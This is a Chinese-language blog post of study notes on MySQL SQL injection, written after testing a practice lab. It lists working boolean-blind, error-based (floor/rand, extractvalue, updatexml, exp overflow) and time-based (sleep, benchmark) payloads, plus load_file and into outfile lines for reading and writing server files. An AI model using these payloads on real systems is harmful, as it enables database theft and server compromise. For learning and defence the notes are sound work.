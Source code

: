 ## 记一次环境测试并总结下sql注入
### 前言
最近帮老板测试了下他的sql注入联系环境，刚好我也想看看《mysql-injection》,这本sql注入天书，然后总结下写点东西。
### 开始
一般的什么get、post、单引号之类的测试这里就不一一累述了，主要想记录总结下一些开始没怎么学懂的东西。

##### 基于布尔sql盲注

	1.left(database(),1)>\'s\'
>left(a,b)从左侧截取a的前b位
>
	2.(ascii(substr((select flag from flag),1,1)))>100 --+
>substr(a,b,c)从c位置开始，截取字符串a的c长度
>ascii()将某个字符转换为ascii值

	3.ord(mid((select ifnull(cast(username as char),0x20) from security.user order by id limit 0,1),1,1))>98%23
>mid(a,b,c)从位置b开始，截取a字符串的c位
>ord()函数同ascii()，将字符转为ascii值
>cast(a as b)将a转换为b类型
>ifnull(a,b)a不是null就取a，是就取b

	4.select user() regexp \'^[a-z]\';
>正则表达式的用法,user()结果为root,regexp为匹配root的正则表达式。匹配正确为1，不正确为0。

	5.select user() like \'ro%\'
>有则1，没有则0

##### 基于报错的sql盲注——构造payload让信息通过错误提示回显出来
1.

	select 1,count(*),concat(0x3a,0X3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from infomation_schema.columns group by a;
>一是concat计数，二是floor，取得0 or 1，进行数据重复，三是group by进行分组，原理好像
[http://www.cnblogs.com/xdans/p/5412468.html](http://www.cnblogs.com/xdans/p/5412468.html)这是一个好文，还有以下变形

	select count(*) from information_schema.tables froup by concat(version(),floor(rand(0)*2)) 
>如果关键点表被禁用了可以使用用户变量来报错

	select min(@a=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)
2.

	select exp(~(select * from (select user())a))
>double数值类型超出范围
>exp()为以e的底的对数函数:版本在5.5.5及其以上

3.

	select !(select * from (select user())x) - ~0
>bigint 超出范围：~0是对0逐位取反，版本在5.5.5及其以上

4.

	extractvalue(1,concat(0x7e,(select @@version),0x7e)) se
>mysql对xml数据进行查询和修改的xpath函数，xpath语法错误

5.

	updatexml(1,concat(0x7e,(select @@version),0x7e),1)
>mysql对xml数据进行查询和修改的xpath函数，xpath语法错误

6.

	select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
>mysql重复特征，此处重复了version，所以报错。

#####基于时间的sql盲注
	1.if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1)))>10,sleep(1),NULL)%23

>if(a,b,c) a假则执行b

	2.if(ascii(substring((SELECT flag FROM flag),1,1))=119,(select benchmark(10000000,md5(0x41))),1)%23

>benchmark(a,b)执行b命令a次，算一种ddos推荐sleep

#####load_file()和into outfile()
1.load_file()导出文件

	select 1,user(),load_file(\'/var/www/html/db.php\')

load_file(file_name):读取文件并返回该文件的内容作为一个字符串。

使用条件：

- 必须有读取权限且文件必须完全可读
- 欲读文件必须在服务器上
- 必须指定文件完整路径(有些课报错爆出绝对路径)
- 欲读取文件必须小于max_allowed_packet


>可用char()编码后的代替
>
>或者直接16进制
>
>/用\\\\代替（win）

2.文件导入到数据库
3.导入到文件
select...into outfile \'filename\'
##### 万能密码就不细说了
注入方式和get型差不多

手法和前文说的一样注入点不同而已
##### 多语句
能多语句就随便搞嘛
##### http头注入 
前提是数据库对头信息进行了提取并处理

常见位置：

- user-agent
- cookie
- referer



工具：

- live http headers(firefox)

- tamper data(firefox)

手法和前文说的一样注入点不同而已

##### waf绕过
后面将新开一篇记录，在此就不累述了。

### 后记
这次记录了很多注入的手法，有常见的也有不怎么常见的，主要是很早就想好好地记录总结下sql了，借此机会就成热打铁写了这篇文章，其中借鉴不少天书的记录，后面会针对wafbypass做些收集并整理出来。